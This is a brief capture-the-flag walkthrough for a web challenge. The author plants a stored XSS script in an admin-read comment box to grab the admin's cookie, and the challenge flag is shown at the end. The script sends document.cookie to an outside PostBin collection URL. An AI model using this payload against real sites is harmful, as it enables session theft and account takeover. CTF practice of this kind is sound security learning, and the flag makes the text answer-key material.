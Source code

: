 # Government Agriculture Network - Web

![Title](images/title.png)

## Initial Thoughts

* some sort of sqli or xss

#Walkthrough

Navigate to the website and we see the ability to upload a comment for the Admin to read

Looks like we might be able to use PostBin - https://postb.in/

Lets grab out Postbin url and slam it in the comment and attack the document.cookie to the end and hope it pops in the body when we refresh the postbin


```php
<script>
location.href ='https://postb.in/1561500185221-0402140889782?cookie='+document.cookie;
</script>
```


<details>
	<summary>Flag</summary>

CTF{8aaa2f34b392b415601804c2f5f0f24e}
</details>
